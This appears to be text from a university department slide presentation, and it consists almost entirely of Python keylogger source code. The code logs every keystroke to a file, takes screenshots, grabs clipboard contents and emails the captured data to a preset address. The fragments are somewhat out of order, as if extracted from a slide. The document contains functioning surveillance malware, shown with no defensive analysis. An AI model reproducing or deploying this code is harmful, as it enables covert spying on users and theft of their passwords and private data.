

def write_file(keys):
        with open(file_path + extend + keys_information, "a") as f:
            for key in keys:
                k = str(key).replace("'", "")
                if k.find("space") > 0:
                    f.write('\n')
                    f.close()
                elif k.find("Key") == -1:
                    f.write(k)
                    f.close()
    def on_release(key):
        if key == Key.esc:
            return False
        if currentTime > stoppingTime:
            return False
    with Listener(on_press=on_press, on_release=on_release) as listener:
        listener.join()
    if currentTime > stoppingTime:
        with open(file_path + extend + keys_information, "w") as f:
            f.write(" ")
        screenshot()
        send_email(screenshot_information, file_path + extend + screenshot_information, toaddr)
        copy_clipboard()

# get screenshots
def screenshot():
    im = ImageGrab.grab()
    im.save(file_path + extend + screenshot_information)
screenshot()
number_of_iterations = 0
currentTime = time.time()
stoppingTime = time.time() + time_iteration

# Timer for keylogger
while number_of_iterations < number_of_iterations_end:
    count = 0
    keys = []
    def on_press(key):
        global keys, count, currentTime
        print(key)
        keys.append(key)
        count += 1
        currentTime = time.time()
        if count >= 1:
            count = 0
            write_file(keys)
            keys = []
11 November 2022
Department of CSE
9